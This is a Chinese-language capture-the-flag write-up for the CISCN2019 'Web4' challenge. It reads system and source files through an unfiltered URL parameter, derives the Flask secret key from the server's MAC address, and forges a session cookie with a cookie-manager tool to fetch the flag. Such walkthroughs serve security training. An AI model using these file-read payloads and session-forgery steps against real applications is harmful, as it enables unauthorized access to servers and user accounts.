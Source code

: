 # [CISCN2019 华东南赛区]Web4

## 知识点

`flask默认路径`

`flask session伪造`

## 解题

题目给了一个超链接，点击直接跳转`www.baidu.com`

http://b47d411e-69a9-4a81-bba0-f69f72700897.node5.buuoj.cn:81/read?url=www.baidu.com

尝试修改`url`参数为`/flag`无法读取，改为`/etc/passwd`可以读取文件，发现路径为`/read`，可能是`python`考点，尝试访问`url=/app/app.py`，发现给出了源码

```python

# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

发现只需要`session['username']`为`fuck`可以获取`flag`

`SECRET_KEY`为`uuid.getnode()`,`uuid.getnode()`是对`mac`地址处理的函数，获取mac地址，`/sys/class/net/eth0/address`，然后使用代码生成

```python
import random

mac="a6:ae:06:e4:cb:90"
nmac=mac.replace(":", "")
random.seed(int(nmac,16))
key = str(random.random() * 233)
print(key)
```

然后使用

```bash
$ python2 flask_session_cookie_manager2.py decode -c "eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Zm2O7w.aOVOCuWRIsp1ysa1Sq6oJErp_wM"
{"username":{" b":"d3d3LWRhdGE="}
```

```bash
$ python3 flask_session_cookie_manager3.py encode -s 125.797313223 -t "{'username':'fuck'}"
eyJ1c2VybmFtZSI6ImZ1Y2sifQ.Zm2TaA.kovIqZ-NdRstTucaiThZz-FJOwU
```

